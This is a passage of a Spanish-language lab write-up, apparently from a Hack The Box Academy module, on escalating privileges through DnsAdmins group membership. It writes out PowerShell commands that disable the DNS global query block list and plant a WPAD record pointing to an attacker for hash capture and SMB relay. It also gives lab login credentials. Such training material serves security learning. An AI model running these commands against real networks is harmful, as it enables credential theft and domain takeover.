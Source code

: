 1. **Deshabilitar la lista global de bloqueos:**
2. Utilizamos [Set-DnsServerGlobalQueryBlockList](https://learn.microsoft.com/en-us/powershell/module/dnsserver/set-dnsserverglobalqueryblocklist?view=windowsserver2019-ps)

```powershell
Set-DnsServerGlobalQueryBlockList -Enable $false -ComputerName dc01.inlanefreight.local
```

* `Set-DnsServerGlobalQueryBlockList -Enable $false` — desactiva la lista global en el servidor DNS indicado por `-ComputerName`.

2. **Crear registro A para `wpad` apuntando al atacante:**

```powershell
Add-DnsServerResourceRecordA -Name wpad -ZoneName inlanefreight.local -ComputerName dc01.inlanefreight.local -IPv4Address 10.10.14.3
```

* `Add-DnsServerResourceRecordA` añade un registro A (host) en la zona `inlanefreight.local` con nombre `wpad` y la IP del atacante.
* Resultado: clientes que usen WPAD por defecto consultarán `wpad.inlanefreight.local` y podrán ser redirigidos.

**Impacto:** con esto, el atacante podría usar herramientas como Responder o Inveigh para capturar hashes, forzar autenticación SMB/NTLM, o hacer SMBRelay.

---

## Resumen final: vector, requisitos y mitigaciones 

* **Vector:** abuso de la funcionalidad de plugins del servicio DNS mediante la clave `ServerLevelPluginDll` o creación de registros WPAD.
* **Requisitos:** ser miembro de `DnsAdmins` (o tener permisos equivalentes), posibilidad de colocar una DLL accesible al DC (por ejemplo en un share accesible por la cuenta de máquina), y la capacidad de reiniciar el servicio DNS o esperar a reinicio.
* **Riesgos/impacto:** escalada a `SYSTEM` o `Domain Admin`, caída del servicio DNS si se realiza mal.
* **Buenas prácticas:** no ejecutar cambios de este tipo sin permiso, limpiar registros y configuración después de pruebas, y limitar quién es miembro de `DnsAdmins`.

---

Laboratorio

#### Aproveche la pertenencia al grupo DnsAdmins para escalar privilegios. Envíe el contenido de la bandera ubicada en c:\Users\Administrator\Desktop\DnsAdmins\flag.txt
`ip`:10.129.43.42 
`usuario`:netadm
`contraseña`:HTB_@cademy_stdnt!

Iniciamos conectando el host mediante `rdp`:
```bash
xfreerdp3 /v:10.129.43.42 /u:netadm
```
<img width="1057" height="823" alt="image" src="https://github.com/user-attachments/assets/45a7d78c-976b-4d68-8387-a9151291cebf" />
